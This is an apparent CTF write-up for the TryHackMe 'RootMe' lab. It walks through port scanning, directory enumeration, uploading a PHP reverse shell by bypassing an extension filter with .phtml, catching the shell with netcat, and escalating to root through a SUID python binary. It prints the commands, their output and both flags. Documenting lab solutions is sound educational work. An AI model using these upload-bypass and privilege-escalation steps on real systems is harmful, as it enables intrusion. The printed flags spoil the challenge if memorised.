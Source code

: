 # RootMe

## Description

A ctf for beginners, can you root me?

## [Task 2] Reconnaissance

Let's start with an Nmap scan. The scan reveals two open ports:
* 22 ssh
* 80 http

### Initial Scan

~~~
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
~~~

From the result, we can answer the first few question:

Open ports: `2`

Apache version: `2.4.29`

Port 22 service: `SSH`

### Web Enumeration

Let's start with the webpage. The first thing I did, was running `gobuster` on the webpage and found two hidden directories:

~~~
$ gobuster dir -w /usr/share/dirb/wordlists/common.txt -u http://$IP/ -x zip,txt,php,html
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.40.107/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirb/wordlists/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              zip,txt,php,html
[+] Timeout:                 10s
===============================================================
2021/10/20 09:09:08 Starting gobuster in directory enumeration mode
===============================================================
/css                  (Status: 301) [Size: 310] [--> http://10.10.40.107/css/]
/index.php            (Status: 200) [Size: 616]                               
/js                   (Status: 301) [Size: 309] [--> http://10.10.40.107/js/] 
/panel                (Status: 301) [Size: 312] [--> http://10.10.40.107/panel/]
/uploads              (Status: 301) [Size: 314] [--> http://10.10.40.107/uploads/]
~~~

Hidden directory: `/panel`

## [Task 3] Getting a Shell

We can uplaod files from `/panel` and we can see the uploaded files in `/uploads`. Let's upload a [php reverse shell](https://github.com/pentestmonkey/php-reverse-shell) and see what happens. (Don't forget to change the IP to yours.)
After uploading the file, it returns an error. It seems like the server doesn't accept the files with `php` extention:

<p align="center"><img src="./files/error.png"></p>

We can easily bypass this by changing the extention from `php` to `phtml` which was the standard file extension for PHP 2 programs:

~~~
$ mv shell.php shell.phtml
~~~

Now we try to uplaod the file again and it goes through:

<p align="center"><img src="./files/accept.png"></p>

Now we can start a listener and call the shell from `/uplaods`:

Listener:
~~~
$ rlwrap nc -lvnp 4444
listening on [any] 4444 ...
~~~

Calling the shell:
~~~
$ rlwrap nc -lvnp 4444
listening on [any] 4444 ...
~~~

Now we have a shell as `www-data`. Let's spawn a TTY shell using a python one-liner:

~~~
$ rlwrap nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.9.3.156] from (UNKNOWN) [10.10.40.107] 60918
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 13:49:52 up 45 min,  0 users,  load average: 0.00, 0.00, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ which python
/usr/bin/python
$ python -c "import pty;pty.spawn('/bin/bash')"
bash-4.4$
~~~

Let's find the user flag. I used the `find` command since we know the name of it. The flag is in `/var/www`:

~~~
bash-4.4$ find / -type f -name "user.txt" 2>/dev/null
/var/www/user.txt
bash-4.4$ cat /var/www/user.txt
THM{y0u_g0t_a_sh3ll}
~~~

user.txt: `THM{y0u_g0t_a_sh3ll}`

## [Task 4] Privilege escalation

Now we need to escalate our privilege to obtain the root flag. The hint tells us to look for the files with SUID permission. So I ran the following command and one file stands out:

~~~
bash-4.4$ find / -user root -perm /4000 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/traceroute6.iputils
/usr/bin/newuidmap
/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/python     <----------------------------s
/usr/bin/chfn
/usr/bin/gpasswd

[REDACTED]
~~~

Weird file: `/usr/bin/python`

It's kinda weird to see `python` here. I looked it up in [GTFOBins](https://gtfobins.github.io/) and in the SUID section we can see a privesc command. Let's run it and see what happens:

~~~
bash-4.4$ /usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
# uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
# whoami
root
~~~

### Root Flag

And it works. We are root now, so let's go ahead and read the root flag in `/root`:
\
~~~
# cd /root
# ls
root.txt
# cat root.txt
THM{pr1v1l3g3_3sc4l4t10n}
~~~

root.txt: `THM{pr1v1l3g3_3sc4l4t10n}`

# D0N3! ; )

Thanks to the creator(s)!

Hope you had fun and have a good one! : )
